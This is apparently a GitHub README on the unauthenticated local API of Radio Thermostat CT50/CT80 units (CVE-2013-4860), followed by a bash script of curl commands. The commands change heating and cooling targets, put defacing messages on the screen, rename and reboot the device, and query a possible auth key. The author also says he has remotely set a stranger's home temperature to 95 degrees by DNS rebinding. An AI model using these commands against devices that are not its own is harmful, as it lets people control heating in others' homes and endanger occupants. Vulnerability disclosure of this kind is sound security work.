 # Radio Thermostat REST API

![Radio thermostat image](.images/amazon.jpg)

The Radio Thermostat CT50 & CT80 (perhaps other models too) support a documented REST API to control heating/cooling in your house from your LAN. This is particularly interesting because there doesn't seem to be any authentication to access this API, leaving anyone on the network to have full control of the device. Daniel Crowly of Trustwave SpiderLabs [reported this vulnerability](https://web.archive.org/web/20180401193243/https://www.trustwave.com/Resources/Security-Advisories/Advisories/TWSL2013-022/?fid=3870) back in 2013, but the company doesn't seem to give a sh!t.

> CVE: CVE-2013-4860
> CWE: CWE-287 Improper Authentication

>When on the same network as a Radio Thermostat unit, no authentication is
required to use any part of the API. Users on the same subnet as the unit
can query and change various settings such as the operation mode, wifi
connection settings, and temperature thresholds.

Worse yet, there is no [Host or Referer \[sic\] header validation](https://github.com/brannondorsey/host-validation), which can expose the device to the WAN via a [DNS Rebinding attack](https://en.wikipedia.org/wiki/DNS_rebinding) (using [`whonow`](https://github.com/brannondorsey/whonow) or another malicious DNS server). I've done this successfully myself by sending someone on another network a link that, once followed, will set the target temperature in their house to 95 degrees.

Here I've provided a few notes on how the API works. If you have one of these devices you can control it via CURL using the code below. Any HTTP client should work too, as I've controlled the device via JavaScript's `fetch` API in the browser too. This isn't an exhaustive list of API endpoints and functionality, but its a quick overview of some of the most interesting stuff. For more info, see the official API documentation PDF below.


[Official Radio Thermostsat API Documentation PDF](RTCOAWiFiAPIV1_3.pdf)

If you do have one of these suckers, you should play with it, but then I'd recommend disabling WiFi or disconnecting it from your home network as it is trivial for attackers to control the temperature in your house so long as you are browsing the web on the same network.

There is also a [Python API](https://github.com/mhrivnak/radiotherm) for communicating with the device, however I have not used it myself. I've confirmed that this API works with a CT50 I purchased on Amazon in March 2018 (version V1.94, firmware v1.04.84, and API version 113).

```bash
#!/bin/bash

THERMOSTAT="192.168.1.100"

# general stats
curl "${THERMOSTAT}/tstat" -X GET

# get the thermosat model
curl "${THERMOSTAT}/tstat/model" -X GET

# version
curl "${THERMOSTAT}/tstat/version" -X GET

# current temperature
curl "${THERMOSTAT}/tstat/temp" -X GET

# thermostat operating mode
# tmode: 0 = OFF, 1 = HEAT, 2 = COOL, 3 = AUTO
curl "${THERMOSTAT}/tstat/tmode" -X GET
curl "${THERMOSTAT}/tstat" -d '{"tmode": 0}' -X POST # OFF
curl "${THERMOSTAT}/tstat" -d '{"tmode": 1}' -X POST # HEAT
curl "${THERMOSTAT}/tstat" -d '{"tmode": 2}' -X POST # COOL
curl "${THERMOSTAT}/tstat" -d '{"tmode": 3}' -X POST # AUTO

# fan mode
# fmode: 0 = AUTO, 1 = AUTO/CIRCULATE, 2 = ON
curl "${THERMOSTAT}/tstat/fmode" -X GET
curl "${THERMOSTAT}/tsta" -d '{"fmode": 0}' -X POST # AUTO
curl "${THERMOSTAT}/tsta" -d '{"fmode": 1}' -X POST # AUTO/CIRCULATE
curl "${THERMOSTAT}/tsta" -d '{"fmode": 2}' -X POST # ON

# check if the target temperature has a temporary override
# override: 0 = DISABLED, 1 = ENABLED
curl "${THERMOSTAT}/tstat/override" -X GET

# target temperature hold status
# hold: 0 = DISABLED, 1 = ENABLED
curl "${THERMOSTAT}/tstat/hold" -X GET
curl "${THERMOSTAT}/tstat" -d '{"hold": 1}' -X POST

# set absolute heat (have to set mode and heat)
curl "${THERMOSTAT}/tstat" -d '{"tmode": 1, "a_heat": 95}' -X POST

# set absolute cool (have to set mode and cool)
curl "${THERMOSTAT}/tstat" -d '{"tmode": 2, "a_cool": 35}' -X POST

# set the temporary target heat AND mode (heat mode)
# t_heat: accepts values between 35-95
curl "${THERMOSTAT}/tstat" -d '{"t_heat": 95}' -X POST

# set the temporary target heat AND mode (cool mode)
# t_heat: accepts values between 35-95
curl "${THERMOSTAT}/tstat" -d '{"t_cool": 35}' -X POST

# LED
curl "${THERMOSTAT}/tstat/led" -d '{"energy_led": 0}' -X POST # OFF
curl "${THERMOSTAT}/tstat/led" -d '{"energy_led": 1}' -X POST # GREEN
curl "${THERMOSTAT}/tstat/led" -d '{"energy_led": 2}' -X POST # YELLO
curl "${THERMOSTAT}/tstat/led" -d '{"energy_led": 4}' -X POST # RED

# Messaging/Text
# user messaging area (only available on CT80)
# uma: line = 0, 1 message = string
curl "${THERMOSTAT}/tstat/uma" -d '{"line": 0, "message": "pwnd by braxxox"}' -X POST
# price messaging area, can only write numbers (like, BOOBS)
# uma: line = 0, 1, 2, 3 (corresponding to energy unit kW, etc) message = numbers
curl "${THERMOSTAT}/tstat/pma" -d '{"line": 1, "message": "80085"}' -X POST

# Night Light
curl "${THERMOSTAT}/tstat/night_light" -X GET

# CT80 only I believe
curl "${THERMOSTAT}/tstat/night_light" -d '{"intensity": 0}' -X POST # OFF
curl "${THERMOSTAT}/tstat/night_light" -d '{"intensity": 1}' -X POST # 25%
curl "${THERMOSTAT}/tstat/night_light" -d '{"intensity": 2}' -X POST # 50%
curl "${THERMOSTAT}/tstat/night_light" -d '{"intensity": 3}' -X POST # 75%
curl "${THERMOSTAT}/tstat/night_light" -d '{"intensity": 4}' -X POST # 100%

# it looks like this might provide an auth key!
curl "${THERMOSTAT}/cloud" -X GET

# get system information
curl "${THERMOSTAT}/sys" -X GET

# get the system name
curl "${THERMOSTAT}/sys/name" -X GET
curl "${THERMOSTAT}/sys/name" -d '{"name": "hack the planet!"}' -X POST

# reboot the device
curl "${THERMOSTAT}/sys/command" -d '{"command": "reboot"}' -X POST
```
